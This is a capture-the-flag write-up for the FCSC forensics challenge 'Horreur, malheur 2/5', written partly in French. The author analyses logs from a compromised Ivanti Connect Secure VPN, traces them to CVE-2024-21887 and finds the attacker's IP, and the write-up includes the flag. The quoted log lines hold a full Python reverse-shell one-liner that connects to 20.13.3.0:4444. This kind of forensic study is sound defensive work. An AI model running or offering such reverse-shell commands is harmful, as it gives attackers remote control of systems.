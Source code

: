 # Horreur, malheur 2/5 - Accès initial

## Challenge
Introduction commune à la série Horreur, malheur

Vous venez d'être embauché en tant que Responsable de la Sécurité des Systèmes d'Information (RSSI) d'une entreprise stratégique.

En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : VPN compromis (intégrité). Version 22.3R1 b1647.

Note : La première partie (Archive chiffrée) débloque les autres parties, à l'exception de la seconde partie (Accès initial) qui peut être traitée indépendamment. Nous vous recommandons de traiter les parties dans l'ordre.

Sur la clé USB, vous trouvez deux fichiers : une archive chiffrée et les journaux de l'équipement. Vous focalisez maintenant votre attention sur les journaux. L'équipement étant compromis, vous devez retrouver la vulnérabilité utilisée par l'attaquant ainsi que l'adresse IP de ce dernier.

> Le flag est au format : FCSC{CVE-XXXX-XXXXX:<adresse_IP>}.

## Inputs
- Logs in a tar archive

## Logs analysis
I noticed this weid call in the `nodemonlog.old` log:
```
data/var/dlogs/nodemonlog.old:301:21969     1  0.0  0.0 S   452   4852  3808 /bin/sh -c /home/perl5/bin/perl /home/perl/AwsAzureTestConnection.pl ;python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i
data/var/dlogs/nodemonlog.old:302:21971 21969  0.0  0.0 S  2296   9532  7972 python -c import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
data/var/dlogs/nodemonlog.old:318:22155 22147  0.0  0.0 S   452   4852  3616 /bin/sh -c /home/perl5/bin/perl /home/perl/AwsAzureTestConnection.pl ;python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i
data/var/dlogs/nodemonlog.old:319:22157 22155  0.0  0.0 S  2296   9532  8004 python -c import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```

After Googling around, this is a signature for `CVE-2024-21887`, an issue in `Ivanti Connect Secure` VPN solution.

See for instance https://www.iblue.team/incident-response-1/ivanti-connect-secure-auth-bypass-and-remote-code-authentication-cve-2024-21887, where this is noted to be a relevant string:
```console
python -c import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
/home/perl5/bin/perl /home/perl/AwsAzureTestConnection.pl ;python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",4444));subprocess.call(["/bin/sh",
/bin/sh
```

Also, we see that it wants to reach back to `20.13.3.0:4444`, where the attacker listens to.

## Flag
> FCSC{CVE-2024-21887:20.13.3.0}
